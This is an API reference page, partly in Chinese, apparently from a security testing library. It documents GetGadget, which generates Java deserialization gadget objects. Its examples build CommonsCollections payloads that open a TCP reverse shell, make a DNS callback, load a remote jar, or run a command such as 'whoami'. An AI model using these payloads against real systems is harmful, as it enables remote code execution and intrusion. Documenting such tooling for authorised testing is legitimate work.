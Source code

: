 
### GetGadget

#### 详细描述
GenerateGadget this is a highly flexible function that can generate a Java object by three different ways:

 1. Generate a Java object that have no any params.

    Example: GenerateGadget("CommonsCollections1")
 2. Generate a Java object that have one param and implement by TemplateImpl, the first param is the name of the gadget, the second param is the class name, the third param is the class param.
    Example: GenerateGadget("CommonsCollections2", "Sleep", "1000")
 3. Generate a Java object that have multiple params and implement by TemplateImpl, the first param is the name of the gadget, the second param is the class name, the third param is the class param map.
    Example: GenerateGadget("CommonsCollections2", "TcpReverseShell", map[string]string{"host": "127.0.0.1","port":"8080"})
 4. Generate a Java object that have one param and implement by TransformChain, the first param is the name of the gadget, the second param is the transform chain name, the third param is the param.
    Example: GenerateGadget("CommonsCollections1", "dnslog", "xxx.xx.com")
 5. Generate a Java object that have multiple params and implement by TransformChain, the first param is the name of the gadget, the second param is the transform chain name, the third param is the param map.
    Example: GenerateGadget("CommonsCollections1", "loadjar", map[string]string{"url": "xxx.com", "name": "exp"})
 6. Generate a Java object that implement by TemplateImpl.
    Example: GenerateGadget("CommonsCollections2", useRuntimeExecEvilClass("whoami"))


#### 定义

`GetGadget(name string, opts ...any) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| name | `string` |   |
| opts | `...any` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |


### GetGadgetNameByFun

#### 详细描述
GetGadgetNameByFun 从函数指针获取 gadget 名称，通过解析函数名来提取。
